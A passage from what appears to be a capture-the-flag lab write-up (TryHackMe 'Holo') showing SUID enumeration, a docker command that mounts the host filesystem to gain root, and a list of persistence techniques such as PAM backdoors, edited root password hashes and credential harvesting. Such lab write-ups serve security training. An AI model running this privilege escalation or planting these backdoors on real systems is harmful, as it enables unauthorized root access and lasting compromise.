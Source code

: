 searching for files with this bit set with the command `find / -perm -u=s -type f 2>/dev/null`
I found

```nmap
www-data@ip-10-200-107-33:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
www-data@ip-10-200-107-33:/var/www/html$ 
```

Docker stands out here.

While browsing through [gtfobins](https://gtfobins.github.io/gtfobins/docker/), I discovered a method to exploit to root using the following command:

`docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh`

The command mount the file system into the docker container under `/mnt`

![Alt text](/assets/img/tryhackme/Networks/Holo/h16.png) 

## Post Exploitation

Yes, we do have the entire file system in the container but we needed more functionality like to execute commands as root in the machine

There are many methods for persistence 
1. Create a ssh_key and drop it on the root file
2. Change the root password hash on /etc/shadows
3. Backdoored binaries
4. PAM backdoor
6. Malicious services
7. Cronjob
8. Credential harvesting
